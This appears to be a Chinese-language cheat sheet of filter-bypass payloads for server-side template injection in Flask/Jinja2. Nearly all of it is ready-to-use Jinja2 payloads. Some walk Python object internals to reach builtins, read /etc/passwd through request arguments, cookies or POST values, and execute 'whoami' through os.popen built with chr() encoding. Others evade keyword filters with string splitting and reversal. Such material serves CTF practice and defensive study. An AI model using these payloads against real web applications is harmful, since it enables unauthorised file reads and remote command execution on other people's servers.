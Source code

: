 ##### 绕过特殊符号

##### （其他类似/之类的都可以这么弄，因为本质上是编码绕过）

###### request绕过

```
{{().__class__.__bases__[0].__subclasses__()[213].__init__.__globals__.__builtins__[request.args.arg1](request.args.arg2).read()}}&arg1=open&arg2=/etc/passwd    
\#分析：
request.args 是flask中的一个属性,为返回请求的参数,这里把path当作变量名,将后面的路径传值进来,进而绕过了引号的过滤。
若args被过滤了，还可以使用values来接受GET或者POST参数。

其它例子：
{{().__class__.__bases__[0].__subclasses__()[40].__init__.__globals__.__builtins__[request.cookies.arg1](request.cookies.arg2).read()}}
Cookie:arg1=open;arg2=/etc/passwd

{{().__class__.__bases__[0].__subclasses__()[40].__init__.__globals__.__builtins__[request.values.arg1](request.values.arg2).read()}}
post:arg1=open&arg2=/etc/passwd
```

###### chr绕过

```
{% set chr=().__class__.__mro__[1].__subclasses__()[139].__init__.__globals__.__builtins__.chr%}{{''.__class__.__mro__[1].__subclasses__()[139].__init__.__globals__.__builtins__.__import__(chr(111)%2Bchr(115)).popen(chr(119)%2Bchr(104)%2Bchr(111)%2Bchr(97)%2Bchr(109)%2Bchr(105)).read()}}

注意：使用GET请求时，+号需要url编码，否则会被当作空格处理。
```

##### init绕过

```
可以用__enter__或__exit__替代__init__

{().__class__.__bases__[0].__subclasses__()[213].__enter__.__globals__['__builtins__']['open']('/etc/passwd').read()}}
 
{{().__class__.__bases__[0].__subclasses__()[213].__exit__.__globals__['__builtins__']['open']('/etc/passwd').read()}}

```



##### 绕过关键字

###### 切片将逆置的关键字顺序输出

```
""["__cla""ss__"]
"".__getattribute__("__cla""ss__")
反转
""["__ssalc__"][::-1]
"".__getattribute__("__ssalc__"[::-1])

```
